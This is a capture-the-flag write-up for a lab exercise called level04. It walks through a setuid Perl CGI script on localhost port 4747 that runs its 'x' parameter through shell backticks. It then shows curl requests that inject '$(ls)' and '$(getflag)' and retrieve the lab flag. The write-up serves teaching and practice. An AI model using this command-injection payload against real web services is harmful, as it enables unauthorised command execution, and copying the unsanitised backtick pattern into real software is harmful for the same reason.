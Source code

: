 ## Exploring the exercice

```bash 
$ ls -la
total 16
dr-xr-x---+ 1 level04 level04  120 Mar  5  2016 .
d--x--x--x  1 root    users    340 Aug 30  2015 ..
-r-x------  1 level04 level04  220 Apr  3  2012 .bash_logout
-r-x------  1 level04 level04 3518 Aug 30  2015 .bashrc
-rwsr-sr-x  1 flag04  level04  152 Mar  5  2016 level04.pl
-r-x------  1 level04 level04  675 Apr  3  2012 .profile
```

```bash 
$ file level04.pl 
level04.pl: setuid setgid a /usr/bin/perl script, ASCII text executable
```

```bash 
$ cat level04.pl
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
```

## Reading doc about Perl

Langage initially used for text processing.
The program is a CGI script in Perl (served by a web server on port 4747) that retrieves a parameter x from an HTTP request, executes a shell command with this value, and returns the result or any errors as HTML content.

## Executing the script 
```bash 
$ curl -I http://localhost:4747
HTTP/1.1 200 OK
Date: Thu, 15 May 2025 08:29:20 GMT
Server: Apache/2.2.22 (Ubuntu)
Vary: Accept-Encoding
Content-Type: text/html

```

```bash 
$ curl  http://localhost:4747?x=salut
salut
```

## Finding the vulnerability

We know that we pass an argument to a function without checking it, let's try to pass a shell command.


```bash 
$ curl 'http://localhost:4747?x=$(ls)'
level04.pl

```

It works ! Let's try with getflag then :

```bash 
$ curl 'http://localhost:4747?x=$(getflag)'
Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
```







